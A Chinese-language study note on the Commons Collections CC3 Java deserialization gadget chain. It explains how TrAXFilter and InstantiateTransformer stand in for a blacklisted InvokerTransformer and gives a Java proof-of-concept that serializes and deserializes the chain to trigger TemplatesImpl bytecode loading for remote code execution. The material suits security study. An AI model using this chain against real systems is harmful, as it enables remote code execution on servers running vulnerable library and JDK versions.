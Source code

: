 - [CC3](#cc3)
  - [TrAXFilter](#traxfilter)
  - [InstantiateTransformer](#instantiatetransformer)
  - [POC](#poc)
# CC3
条件:  
* commons-collections <= 3.2.1 or 4.0  
* JDK<=8U71  

CC3链主要是对CC1链的变形,用来绕过含有`InvokerTransformer`类的黑名单,使用`TrAXFilter`和`InstantiateTransformer`两个类来代替`InvokerTransformer`类.
## TrAXFilter
TrAXFilter类是一个XML过滤器的扩展类,其构造函数如下:  
![](2021-12-28-18-18-37.png)
在其构造函数中其调用了传入的`templates.newTransformer()`方法,而在`TemplatesImpl`利用链的入口刚好也是其`newTransformer()`方法,那么只要传入带有恶意字节码类的`TemplatesImpl`类即可触发RCE,而想要在反序列化中利用,还需要找到一个能够在`readObject()`过程中能够触发`TrAXFilter`构造函数的方式.
## InstantiateTransformer
`InstantiateTransformer`也是一个commons collections提供的实现了`Transform`接口的Transformer类,其transform接口实现如下:
![](2021-12-28-18-28-42.png)
获取到输入对象的构造器,然后通过构造器的newInstance()得到对象,通过传入`TrAXFilter`类则可以触发上述的`TrAXFilter`的构造函数.
## POC
只要将`InvokerTransformer`的部分替换`TrAXFilter`和`InstantiateTransformer`即可,同时不再利用反射来执行命令,而是使用`TemplatesImpl`利用链.参考CC1做修改如下:
```java
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
```
